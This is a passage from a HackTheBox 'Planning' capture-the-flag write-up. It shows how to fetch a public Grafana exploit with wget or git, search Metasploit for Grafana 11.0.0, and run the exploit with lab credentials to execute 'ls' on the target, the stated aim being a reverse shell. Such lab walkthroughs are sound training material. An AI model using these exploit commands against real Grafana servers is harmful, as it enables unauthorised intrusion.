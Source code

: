 I downloaded the exploit using `wget` Note: download files in **RAW** format:

```bash
wget https://raw.githubusercontent.com/PATH_TO_FILE
```
You can also use `git clone` to copy an entire repository:
```bash
git clone <repository_url>
```
<p align="center">
  <img src="https://github.com/Neiton-cmd/Write-ups/blob/main/HackTheBox/Planning/HowGetFileFromGitHub.png" alt="GIT" width="400">
</p>
You can also test exploits via Metasploit using the following command:

```bash
msfconsole
search grafana 11.0.0
```

## 3. Exploatation
After downloading the exploit, I read its README and understood how to use it. Our main objective is to execute a reverse shell on the vulnerable machine.
Before dropping the full reverse‐shell payload, you can test command execution with a simple `ls` to confirm everything is wired up correctly:
```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -c ls http://grafana.planning.htb
```
<p align="center">
  <img src="https://github.com/Neiton-cmd/Write-ups/blob/main/HackTheBox/Planning/exploitLS.png" alt="ls command" width="400">
</p>